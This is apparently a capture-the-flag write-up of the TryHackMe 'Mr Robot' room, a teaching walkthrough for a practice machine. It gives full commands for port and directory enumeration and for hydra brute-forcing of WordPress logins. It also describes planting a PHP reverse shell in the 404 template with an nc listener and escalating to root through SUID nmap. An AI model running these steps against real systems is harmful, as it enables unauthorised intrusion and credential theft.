# ====================

# Mr Robot CTF WRITE-UP

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

# ====================

![](Images/1.jpeg)

# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HTTP` and `HTTPS` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.

![](Images/2.png)

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```

![](Images/3.png)

Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:

![](Images/4.png)

First we will check for **robots.txt** file and we can see some interesting files:

![](Images/5.png)

File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:

![](Images/6.png)

Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:

![](Images/7.png)

```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D

![](Images/8.png)

Now let's back to log in page, enter **elliot** as username and random password. We get different error message!

![](Images/9.png)

Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)

![](Images/10.png)

Use the credentials to log in to the WordPress site and we are in:

![](Images/11.png)

WordPress is based on php, so we need a php reverse shell to get to the system... The easiest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:

![](Images/12.png)

Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.

![](Images/13.png)

Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thm/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:

![](Images/14.png)

List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.

![](Images/15.png)

We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:

![](Images/16.png)

Now, we can `cat` key-2-of-3.txt file and get the second answer:

![](Images/17.png)

At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...

![](Images/18.png)

We can run NMAP in interactive mod and get the shell:

![](Images/19.png)

And YES, we are root!!! :)

![](Images/20.png)

Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!

![](Images/21.png)

# =========

# ***Stay safe and see ya in the next write-up!***
